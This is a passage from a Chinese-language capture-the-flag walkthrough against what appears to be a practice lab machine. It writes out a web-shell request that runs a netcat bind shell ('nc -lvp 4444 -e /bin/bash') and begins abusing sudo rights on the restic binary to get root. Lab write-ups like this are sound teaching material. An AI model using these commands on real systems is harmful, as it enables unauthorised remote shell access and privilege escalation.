既然得不到反向壳，那就来个绑定壳吧。

```
[**http://10.10.10.159/bolt/files/simple-backdoor.php?cmd=nc.traditional -lvp 4444 -e /bin/bash**](http://10.10.10.159/bolt/files/simple-backdoor.php?cmd=nc.traditional -lvp 4444 -e /bin/bash)
```

![](img/33e91bdfbdf5857f971e93942f1f6cb9.png)

# 特权—根

正如之前所料，`**www-data**`拥有对`**restic**`二进制文件的 sudo 权限。

![](img/c45e0157d86478b78fbb1ab35d92b1e4.png)

看[文档](https://restic.readthedocs.io/en/latest/010_introduction.html)，我们了解到`**restic is a fast and secure backup information**` **。**

既然我们在`**restic backup**`**上拥有 sudo 特权，那么让我们来看看 backup 子命令能做什么。**
